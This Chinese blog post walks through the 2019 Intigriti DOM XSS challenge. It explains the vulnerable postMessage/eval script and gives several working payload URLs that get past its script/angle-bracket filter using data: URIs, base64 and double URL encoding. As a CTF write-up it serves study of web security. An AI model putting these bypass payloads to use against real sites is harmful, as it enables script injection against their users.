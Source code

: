 ```yaml
---
layout: post
title: Intigriti XSS 解题思路总结
date: 2019-05-15 20:58
tags:
- xss
- web
categories: web
description: 一道有趣的 xss 挑战题目
---
```

最近 intigriti 举办了一场非常有趣的 XSS 挑战题目，题目地址如下：

[https://challenge.intigriti.io](https://challenge.intigriti.io)

题目描述：

> Try to exploit a DOM XSS vulnerability on this page to trigger a popup of the document.domain (**challenge.intigriti.io**).
> The winner gets a **Burp License (1 year), an exclusive swag package and invitations to private programs**.

做题这需要在当前页面成功执行 alert(document.domain) 命令，挑战页面涉及的代码很简短如下：

```javascript
  <!-- challenge -->
  <script>
  const url = new URL(decodeURIComponent(document.location.hash.substr(1))).href.replace(/script|<|>/gi, "forbidden");
  const iframe = document.createElement("iframe"); iframe.src = url; document.body.appendChild(iframe);
  iframe.onload = function(){ window.addEventListener("message", executeCtx, false);}
  function executeCtx(e) {
    if(e.source == iframe.contentWindow){
      e.data.location = window.location;
      Object.assign(window, e.data);
      eval(url);
    }
  }
  </script>
  <!-- challenge -->
```

自己测试的时候注意一定要把这段 js 代码放到 body dom 建立好之后

### 解题思路

首先，我用文字描述一下题目的逻辑：

当前网页 hash 部分内容是需要解题者精心构造 Payload 的区域，js 会读取 hash 部分建立一个 URL 对象，并把 href 属性内容随后赋值给新建的 frame.src，解题者需要 frame 里执行 js，以发送给主页 window 窗口 message 消息 js 触发 addEventListener 监听器执行 executeCtx，其中 `e.source == iframe.contentWindow` 是判断消息是否来自 iframe 的窗口，并且要满足 executeCtx 内部成功执行到 eval(url) 不报错的条件，成功执行 alert(document.domain)。

几个问题如下，为什么不在 iframe 里弹出 alert(document.domain)？

```
iframe 是一个数据 URL 没有 domain，同时 iframe 的 js 得不到主页窗口的 document.domain 内容
```

后面的解题为什么非要使用 data 伪协议，iframe 加载外部 js 不行吗？

> https://stackoverflow.com/questions/15329710/postmessage-source-iframe
> 如果只是验证是否是 iframe 发送的，为什么不加载外部 js？

本题需要充分的利用 JS 调试器，推荐 Chrome

### 基础知识

1. Data URLs，即前缀为 data: 协议的的 URL，其允许内容创建者向文档中嵌入小文件。

   ```
   data:[<mediatype>][;base64],<data>
   ```

   mediatype 是个 MIME 类型的字符串，例如 "image/jpeg" 表示 JPEG 图像文件。如果被省略，则默认值为 text/plain;charset=US-ASCII

   参考文档：[https://developer.mozilla.org/zh-CN/docs/Web/HTTP/data_URIs](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/data_URIs)

   mediatype 为 `text/html` 就足够执行 js，比如执行 `<script>alert('hi');</script>`，浏览器打开下面链接即可。

   ```
   data:text/html;base64,PHNjcmlwdD5 hbGVydCgnaGknKTs8L3NjcmlwdD4=
   ```

2. 如何发送 message，以及 receiveMessage 函数的参数 e 的属性

   js 可以使用 postMessage() 发送消息，会触发绑定了 'message' 事件的 Listener，使用方法如下：

   ```
   targetWindow.postMessage(messageData, targetOrigin, [transfer]);
   ```

   > **targetWindow**
   >
   > A reference to the window that will receive the message. Methods for obtaining such a reference include:
   >
   > - [`window.open`](https://developer.mozilla.org/en-US/docs/Web/API/Window/open) (to spawn a new window and then reference it),
   > - [`window.opener`](https://developer.mozilla.org/en-US/docs/Web/API/Window/opener) (to reference the window that spawned this one),
   > - [`HTMLIFrameElement.contentWindow`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLIFrameElement/contentWindow) (to reference an embedded [``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe) from its parent window),
   > - [`window.parent`](https://developer.mozilla.org/en-US/docs/Web/API/Window/parent) (to reference the parent window from within an embedded [``](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe)), or
   > - [`window.frames`](https://developer.mozilla.org/en-US/docs/Web/API/Window/frames) + an index value (named or numeric).

   注意 targetwindow 是接受窗口索引。postMessage 是实现跨域通信非常好的一个接口。

   对于 receviveMessage 的参数 e 有这些属性：

   > data
   > The object passed from the other window.
   >
   > source
   > A reference to the window object that sent the message; you can use this to establish two-way communication between two windows with different origins.

   e.data 就是 postMessage 参数的 messageData

   参考文档：[https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)

3. Object.assign(target, source) 方法用于将所有可枚举属性的值从一个或多个源对象复制到目标对象。它将返回目标对象。

   在本题中是将 message 携带的 e.data 的全部属性赋值给 window （如果 window 没有该属性会新建）

4. 题目的过滤正则表达式含义

   ```
   /script|<|>/gi   
   ```

   过滤 script 或者 < 或者 >，g 表示全局搜索，i 表示不区分大小写

5. iframe.contentWindow

   > contentWindow 属性返回 <iframe> 元素的 Window 对象。你可以使用这个 Window 对象来访问 iframe 的文档及其内部 DOM。contentWindow 为只读，但是可以像操作全局 Window 对象一样操作其属性。

6. window 对象

   > Window 对象表示一个浏览器窗口或一个框架。
   > Window 对象的 window 属性和 self 属性引用的都是它自己。当你想明确地引用当前窗口，而不仅仅是隐式地引用它时，可以使用这两个属性。除了这两个属性之外，parent 属性、top 属性以及 frame[] 数组都引用了与当前 Window 对象相关的其他 Window 对象。

### 解题步骤

1. 如何绕过 replace(/script|<|>/gi, "forbidden") 过滤
   - 方法一：data 协议的 base64 编码
   - 方法二：使用非 script 标签执行 js，利用二次 URL 编码绕过 < 和 > 的替换

下面给出几个 Payload 来研究：

```
https://challenge.intigriti.io/#data:text/html,alert(document.domain);//%253csvg%20onload=%22parent.postMessage({text:4,html:1},'*');%22%253e
URL 解码后：<svg onload="parent.postMessage({text:4,html:1},'*');">
```
上述 Payload 消息之所以要发送 `{text:4,html:1}` 是在 Object.assign 步骤使得主页 window 属性有 text 和 html，这样 eval 执行的时候就不会报错：

```
Uncaught ReferenceError: text is not defined
```

// 的作用是避免执行到后面的内容，比如上述 payload 如果没有 // 会触发 eval 报错：

```
Unexpected token %
```

特别的，注意：

```javascript
eval("data:1"); 正常   
eval("data"); 显示未定义
```

另一个 base64 方案的 payload 如下：

```
https://challenge.intigriti.io/#data:text/html;alert(document.domain);base64,PHNjcmlwdD53aW5kb3cucGFyZW50LnBvc3RNZXNzYWdlKHt0ZXh0OjEsIGh0bWw6MSwgYmFzZTY0OjF9LCAiKiIpPC9zY3JpcHQ+aGkgaW50aWdyaXRp
<script>window.parent.postMessage({text:1, html:1, base64:1}, "*")</script>hi intigriti
```

但是在我的 firefox 和 chrome 测试都失效，作者也有类似情况。

### 官方贴的 payload 测试情况：

成功的 payload：

```
https://challenge.intigriti.io/#data:text/html;var%20 text=text;var%20 html=html;alert(xss)//;base64,PGh0bWw+PGJvZHkgb25 sb2FkPXhzcygpPjxzY3JpcHQ+IGZ1bmN0aW9uIHhzcygpIHsgcGFyZW50LnBvc3RNZXNzYWdlKHsneHNzJzogIm4wdG0zIn0 sICcqJyk7IH07IDwvc2NyaXB0Pg==
```

```
https://challenge.intigriti.io/#data:text/html,alert()//%253Csvg/onload=%27 top.postMessage(%7 B%22 text%22:%201%7D,%20%22*%22);top.postMessage(%7 B%22 html%22:%201%7D,%20%22*%22)%27%253E
```

```
https://challenge.intigriti.io/#data:text/html;var%20 text=alert%28%29;var%20 html;base64,YWE8c3ZnL29ubG9 hZD0idG9wLnBvc3RNZXNzYWdlKDAsJyonKSI+11
```

```
https://challenge.intigriti.io/#data:text/html,alert(document.domain);//%253csvg%20onload=%22parent.postMessage({text:4,html:1},'*');%22%253e
```

测试失败的：

```
https://challenge.intigriti.io/#data:text/html,alert(document.domain)//%253C%2553cript%253Ewindow.parent.postMessage({text:%22%22,html:%22%22}%2C%20%22*%22)%253C%2F%2553cript%253E
```

### 参考链接

[https://blog.intigriti.com/2019/05/06/intigriti-xss-challenge-1/ ](https://blog.intigriti.com/2019/05/06/intigriti-xss-challenge-1/ ) 官方解答

[**Solution of Dominic**](https://dee-see.github.io/intigriti/xss/2019/05/02/intigriti-xss-challenge-writeup.html) 官方推荐的解答一

[**Solution of DPhoenixx**](https://twitter.com/dPhoeniixx/status/1124448847844061189) 官方推荐的解答二

[https://xz.aliyun.com/t/5106](https://xz.aliyun.com/t/5106) 国内选手解答——居然是抄的